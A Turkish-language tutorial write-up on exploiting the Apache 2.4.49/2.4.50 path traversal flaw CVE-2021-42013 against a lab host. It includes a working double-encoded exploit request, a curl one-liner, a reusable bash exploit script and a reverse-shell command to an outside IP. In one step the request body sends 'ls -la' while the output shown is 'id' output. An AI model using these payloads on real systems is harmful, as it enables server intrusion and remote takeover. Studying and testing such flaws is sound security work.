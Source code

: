 # Apache HTTP Server 2.4.49/2.4.50 | CVE-2021-42013 | Remote Code Execution

### **Zafiyet:** `Path Traversal` + `Remote Code Execution`
### **CVE:** [CVE-2021-42013](https://nvd.nist.gov/vuln/detail/CVE-2021-42013)

---

## Giriş

Bu çalışmada, Apache HTTP Server 2.4.49 ve 2.4.50 sürümlerinde keşfedilen ve CVE-2021-42013 olarak tanımlanan kritik bir uzaktan kod çalıştırma (RCE) zafiyetinin pratik istismar süreci anlatılmıştır. Zafiyet, hatalı URL çözümleme ve CGI dosyalarının kontrolsüz çalıştırılmasından kaynaklanmaktadır. Bu yazıda zafiyetin manuel olarak nasıl doğrulandığı, `curl` ve Burp Suite ile nasıl test edildiği, bir reverse shell elde edilerek istismarın nasıl tamamlandığı adım adım gösterilmiştir.

---

## 1. Zafiyetin Tanımı

Apache HTTP Server 2.4.49 ve 2.4.50 sürümlerinde bulunan bir dizin geçişi (`path traversal`) zafiyeti ile, `.cgi` dosyaları üzerinden komut çalıştırmak mümkündür. Bu zafiyet `%%32%65` gibi **double URL encoding** ile filtreleri bypass etmeyi mümkün kılar.

![](https://github.com/ozcanpng/ozcanpng.github.io/blob/main/images/CVE-2021-42013.png)

> 💡 **Zafiyetin Kökeni:**  
Apache 2.4.49'da dizin geçişi (path traversal) kontrolleri eksikti. 2.4.50 sürümünde bu açık kapatılmaya çalışılsa da, **çift katmanlı URL encode (double encoding)** (`%%32%65` → `%2e` → `.`) ile koruma mekanizmaları atlatılabiliyordu. Ayrıca, CGI modülünün `/bin/sh` gibi sistem dosyalarını çalıştırmaya devam etmesi, bu zafiyeti kritik düzeye çıkardı.

---

## 2. Zafiyetin Doğrulanması (Manual Test)

Burp Suite üzerinden aşağıdaki isteği gönderdim:

```http
POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1
Host: 172.20.3.145
User-Agent: curl/8.13.0
Accept: */*
Content-Type: text/plain
Content-Length: 43
Connection: keep-alive

echo Content-Type: text/plain; echo; ls -la
```

Yanıt olarak hedef sistemdeki `uid=1(daemon)` çıktısını aldım:

```http
HTTP/1.1 200 OK
Date: Wed, 23 Jul 2025 06:35:50 GMT
Server: Apache/2.4.50 (Unix)
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/plain
Content-Length: 45

uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

Bu istekle, hedef sistemin komut çalıştırabildiği doğrulandı.

> Not: `Content-Length` değeri **doğru hesaplanmazsa** CGI cevap vermez. Bu yüzden Burp veya curl'da `--data-binary` kullanılmalıdır.

---

## 3. curl ile Komut Çalıştırma

```bash
curl -s --proxy http://127.0.0.1:8080 --path-as-is -H "Content-Type: text/plain" --data "echo Content-Type: text/plain; echo; id" http://172.20.3.145/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh
```

Yukarıdaki istekle tekrar `id` çıktısı doğrulandı.

---

## 4. Exploit Scripti Kullanımı

Açığı daha pratik kullanmak için hazır bir `bash` scripti oluşturdum:

```bash
#!/bin/bash

if [[ -z "$1" || -z "$2" ]]; then
  echo "Usage:"
  echo "    $0 <target> <path> '<command>'"
  echo "    $0 172.20.3.145 /bin/sh 'id'"
  exit
fi

curl -s --path-as-is -H "Content-Type: text/plain" --data "echo Content-Type: text/plain; echo; $3" "$1/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/$2"
```

---

## 5. Reverse Shell Elde Edilmesi

Netcat ile `4141` portundan dinleme yaptım:

```bash
nc -lvnp 4141
```

Ve aşağıdaki reverse shell komutuyla bağlantı başlattım:

```bash
./cve-2021-42013.sh 172.20.3.145 /bin/bash 'bash -i >& /dev/tcp/10.8.14.193/4141 0>&1'
```

Sonuç olarak hedef sistemden `bash` shell aldım:

![](https://github.com/ozcanpng/ozcanpng.github.io/blob/main/images/gettingShell.png)

---

## 6. Sonuç ve Önlem

Bu zafiyet Apache HTTP Server 2.4.49 ve 2.4.50 sürümlerine özeldir ve CGI scriptlerinin bulunduğu sistemlerde **kritik düzeyde RCE** sağlar. Apache 2.4.51 veya üzeri sürüme güncellenmesi tavsiye edilir.

---

## Son Söz

CVE-2021-42013, temel URL parsing hatalarının ne kadar kritik sonuçlar doğurabileceğini gösteren güzel bir örnektir. Bu zafiyet sayesinde yalnızca birkaç satır komutla uzak bir Apache sunucusunda kod çalıştırmak, hatta shell almak mümkün olmuştur. CGI modülü aktif olan sistemlerde bu tarz açıklar zincirleme etki yaratabilir. Bu yüzden yalnızca sürüm güncellemesi değil, sistemde aktif olan modüllerin ve dosya izinlerinin de dikkatle incelenmesi gerekir.

